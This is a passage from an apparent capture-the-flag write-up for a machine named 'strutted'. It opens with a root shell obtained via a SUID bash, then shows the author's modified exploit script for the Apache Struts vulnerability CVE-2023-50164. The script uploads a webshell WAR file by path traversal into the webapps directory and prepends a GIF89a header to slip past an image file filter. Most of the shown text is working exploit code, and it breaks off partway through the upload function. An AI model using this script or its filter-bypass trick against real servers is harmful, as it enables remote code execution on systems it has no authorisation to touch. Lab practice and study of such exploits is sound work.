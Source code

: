 ```
drwx------  2 root  root     4096 Jul 24 04:21 vmware-root_610-2731152165
drwxrwxrwt  2 root  root     4096 Jul 24 04:20 .X11-unix
drwxrwxrwt  2 root  root     4096 Jul 24 04:20 .XIM-unix
james@strutted:~$ /tmp/bash -p
bash-5.1# whoami
root

```

# Beyond the Footpath

After I own this machine, I start to fix the automatic exploit script 

I choose the `https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE.git`

And follow `https://www.rjeon.com/general/demo/2019/06/05/side1.html` this article to make the `exploit.py` script can bypass the Image Filters
```
import os
import sys
import time
import string
import random
import argparse
import requests
from urllib.parse import urlparse, urlunparse
from requests_toolbelt import MultipartEncoder
from requests.exceptions import ConnectionError

MAX_ATTEMPTS = 10
DELAY_SECONDS = 1
HTTP_UPLOAD_PARAM_NAME = "upload"
NAME_OF_WEBSHELL = "webshell"
NAME_OF_WEBSHELL_WAR = NAME_OF_WEBSHELL + ".war"
NUMBER_OF_PARENTS_IN_PATH = 5  # Updated to match File/<TimeStamp>/uploads/ROOT/webapps


def get_base_url(url):
    parsed_url = urlparse(url)
    base_url = urlunparse((parsed_url.scheme, parsed_url.netloc, "", "", "", ""))
    return base_url


def create_war_file():
    if not os.path.exists(NAME_OF_WEBSHELL_WAR):
        os.system("jar -cvf {} {}".format(NAME_OF_WEBSHELL_WAR, NAME_OF_WEBSHELL + '.jsp'))
        print("[+] WAR file created successfully.")
    else:
        print("[+] WAR file already exists.")


def upload_file(url):
    create_war_file()

    if not os.path.exists(NAME_OF_WEBSHELL_WAR):
        print("[-] ERROR: webshell.war not found in the current directory.")
        exit()

    war_location = '../' * (NUMBER_OF_PARENTS_IN_PATH - 1) + 'webapps/' + NAME_OF_WEBSHELL_WAR

    # Inject GIF polyglot header to bypass file type filter
    war_file_content = open(NAME_OF_WEBSHELL_WAR, "rb").read()
    war_file_content = b"GIF89a;" + war_file_content
```